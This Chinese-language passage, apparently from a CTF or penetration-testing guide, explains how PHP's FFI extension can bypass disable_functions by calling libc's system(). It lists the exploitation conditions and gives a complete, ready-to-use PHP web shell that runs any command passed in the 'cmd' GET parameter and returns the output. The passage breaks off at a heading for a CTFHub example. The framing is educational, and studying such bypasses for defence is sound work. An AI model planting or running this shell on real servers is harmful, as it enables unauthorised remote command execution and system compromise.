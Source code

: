 *   **概述 (Overview):** FFI 是 PHP 7.4 版本引入的一个官方扩展，允许 PHP 代码直接调用 C 语言编写的函数和使用 C 语言的数据结构。如果 FFI 扩展被启用 (`ffi.enable=true`)，并且 `FFI` 类未被禁用，攻击者可以直接通过 FFI 调用 C 标准库中的 `system()` 函数来执行命令。
*   **工作原理 (Working Principle):**
    1.  **声明接口:** 使用 `FFI::cdef()` 方法声明要调用的 C 函数的原型（例如 `int system(const char *command);`）。PHP FFI 会在运行时查找并链接到包含该函数的库（通常是 libc）。
    2.  **调用函数:** 通过 FFI 对象直接调用声明的 C 函数，就像调用 PHP 函数一样 (`$ffi->system("command");`)。
*   **利用条件 (Exploitation Conditions):**
    *   PHP 版本 >= 7.4。
    *   PHP 编译时包含 FFI 扩展。
    *   `php.ini` 中 `ffi.enable` 设置为 `On` (注意，CLI SAPI 下默认为 `On`，其他 SAPI 如 FPM 默认为 `preload`，需要预加载才能用)。
    *   `FFI` 类及其方法未在 `disable_classes` 或 `disable_functions` 中被禁用。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    ```php
    <?php
    // 检查 FFI 是否可用
    if (extension_loaded('ffi') && ini_get('ffi.enable') === '1') { // 检查 ffi.enable=true
        try {
            // 声明要调用的 system 函数
            $ffi = FFI::cdef("int system(const char *command);"); 
            
            // 获取命令 (例如从 GET 参数)
            $command = isset($_GET['cmd']) ? $_GET['cmd'] : 'id'; 

            // (可选) 将输出重定向到文件，以便读取
            $output_file = "/var/www/html/ffi_output.txt"; // 确保可写
            $command_with_redir = $command . " > " . $output_file . " 2>&1";

            // 通过 FFI 调用 system 函数
            $ffi->system($command_with_redir); 

            // 读取并显示结果
            if (file_exists($output_file)) {
                echo "Command output:<pre>" . htmlspecialchars(file_get_contents($output_file)) . "</pre>";
                // @unlink($output_file); // 清理
            } else {
                echo "Output file not found or command failed.";
            }

        } catch (FFI\Exception $e) {
            echo "FFI Error: " . $e->getMessage();
        }
    } else {
        echo "FFI extension is not loaded or not enabled (ffi.enable must be On).";
    }
    ?>
    ```
*   **CTFHUB 示例 (CTFHUB Example):**